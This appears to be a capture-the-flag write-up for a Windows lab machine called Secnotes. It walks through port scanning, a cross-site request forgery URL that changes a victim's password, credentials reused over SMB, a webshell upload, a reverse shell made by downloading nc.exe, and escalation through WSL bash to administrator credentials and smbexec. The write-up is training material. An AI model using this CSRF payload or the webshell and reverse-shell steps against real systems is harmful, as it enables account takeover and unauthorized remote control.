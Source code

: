 # Secnotes

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.85.180    
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-04 09:49 EDT
Nmap scan report for 10.129.85.180
Host is up (0.010s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
445/tcp  open  microsoft-ds
8808/tcp open  ssports-bcast
```

Interesting ports for a Windows machine.

### Request Forgery

Port 80 just shows a login page:

<figure><img src="../../../.gitbook/assets/image (31) (3).png" alt=""><figcaption></figcaption></figure>

We can create a user to login.

<figure><img src="../../../.gitbook/assets/image (21) (7).png" alt=""><figcaption></figcaption></figure>

There's a user with an email, and this user might click on the links we send. I sent one like so:

<figure><img src="../../../.gitbook/assets/image (9) (6) (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

And we do indeed get a callback on a `nc` listening port.

```
$ nc -lvnp 80                          
listening on [any] 80 ...
connect to [10.10.14.13] from (UNKNOWN) [10.129.85.180] 49797
GET / HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.17134.228
Host: 10.10.14.13
Connection: Keep-Alive
```

So there's some request forgery going on here. I tried changing passwords, and viewed the request in Burp:

```http
POST /change_pass.php HTTP/1.1
Host: 10.129.85.180
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 61
Origin: http://10.129.85.180
Connection: close
Referer: http://10.129.85.180/change_pass.php
Cookie: PHPSESSID=8ufhg7s7ejqtmjcfike2ek21fl
Upgrade-Insecure-Requests: 1



password=test%40123&confirm_password=test%40123&submit=submit
```

I found that if we convert this to a GET requests, it still works. This means we can change the password of the user by redirecting him to the `change.php` site and entering the same parameters. Send this to the Contact Us page:

{% code overflow="wrap" %}
```
http://10.129.85.180/change_pass.php?password=easypass&confirm_password=easypass&submit=submit
```
{% endcode %}

After waiting for a bit, we can login as `tyler` using this password.

<figure><img src="../../../.gitbook/assets/image (50) (5).png" alt=""><figcaption></figcaption></figure>

There are some credentials located within the note **new site**.&#x20;

```
\\secnotes.htb\newsite
tyler / 92g!mA8BGjOirkL%OG*&
```

### SMB

Now that we have some credentials, we can check whether they are valid:

```
$ smbmap -u tyler -p '92g!mA8BGjOirkL%OG*&' -H 10.129.85.182
[+] IP: 10.129.85.182:445       Name: 10.129.85.182                                     
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        new-site                                                READ, WRITE
```

So we have read and write permissions on `new-site`. There's another IIS web server on port 8808, which I think is the new site being referred to. We can put a webshell on it and check if it works.&#x20;

<figure><img src="../../../.gitbook/assets/image (3) (8) (1).png" alt=""><figcaption></figcaption></figure>

Now we have RCE, and we can get a reverse shell through downloading and executing `nc.exe`.

&#x20;

<figure><img src="../../../.gitbook/assets/image (20) (9).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Bash Shell

Within the user's desktop, there is a `bash.lnk` file:

```
C:\Users\tyler\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 1E7B-9B76

 Directory of C:\Users\tyler\Desktop

08/19/2018  03:51 PM    <DIR>          .
08/19/2018  03:51 PM    <DIR>          ..
06/22/2018  03:09 AM             1,293 bash.lnk
08/02/2021  03:32 AM             1,210 Command Prompt.lnk
04/11/2018  04:34 PM               407 File Explorer.lnk
06/21/2018  05:50 PM             1,417 Microsoft Edge.lnk
06/21/2018  09:17 AM             1,110 Notepad++.lnk
05/04/2023  07:02 AM                34 user.txt
08/19/2018  10:59 AM             2,494 Windows PowerShell.lnk
```

When we view its contents, we can't make out a lot but we can see that `bash.exe` is installed on the system:

{% code overflow="wrap" %}
```
C:\Users\tyler\Desktop>type bash.lnk
type bash.lnk
L�F w������V�   �v(���  ��9P�O� �:i�+00�/C:\V1�LIWindows@       ﾋL���LI.h���&WindowsZ1�L<System32B   ﾋL���L<.p�k�System32▒Z2��LP� bash.exeB  ﾋL<��LU.�Y����bash.exe▒K-JںݜC:\Windows\System32\bash.exe"..\..\..\Windows\System32\bash.exeC:\Windows\System32�%�
                                                                    �wN�▒�]N�D.��Q���`�Xsecnotesx�<sAA��㍧�o�:u��'�/�x�<sAA��㍧�o�:u��'�/�=  �Y1SPS�0��C�G����sf"=dSystem32 (C:\Windows)�1SPS��XF�L8C���&�m�q/S-1-5-21-1791094074-1363918840-4199337083-1002�1SPS0�%��G▒��`����%
        bash.exe@������
                       �)
                         Application@v(���      �i1SPS�jc(=�����O�▒�MC:\Windows\System32\bash.exe91SPS�mD��pH�H@.�=x�hH�(�bP
```
{% endcode %}

We can search for this using `where`.&#x20;

```
C:\Users\tyler\Desktop>where /R c:\ bash.exe
c:\Windows\System32\bash.exe
c:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe
```

The first one doesn't work, so I tried the second one.

<figure><img src="../../../.gitbook/assets/image (25) (7) (1).png" alt=""><figcaption></figcaption></figure>

We would spawn in a `root` shell. We can spawn a PTY shell the normal way with `python3`.

```
exitroot@SECNOTES:~# ls -la
ls -la
total 8
drwx------ 1 root root  512 Jun 22  2018 .
drwxr-xr-x 1 root root  512 Jun 21  2018 ..
---------- 1 root root  398 Jun 22  2018 .bash_history
-rw-r--r-- 1 root root 3112 Jun 22  2018 .bashrc
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
drwxrwxrwx 1 root root  512 Jun 22  2018 filesystem
```

Then, when viewing the bash history file, we can see credentials for the administrator:

```
root@SECNOTES:~# cat .bash_history
<TRUNCATED>
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
```

We can verify these credentials via `smbmap`.&#x20;

<figure><img src="../../../.gitbook/assets/image (37) (6) (1).png" alt=""><figcaption></figcaption></figure>

We have complete control over the file system, and we can get a shell with `smbexec.py` because only SMB is open.

<figure><img src="../../../.gitbook/assets/image (14) (8) (2).png" alt=""><figcaption></figcaption></figure>
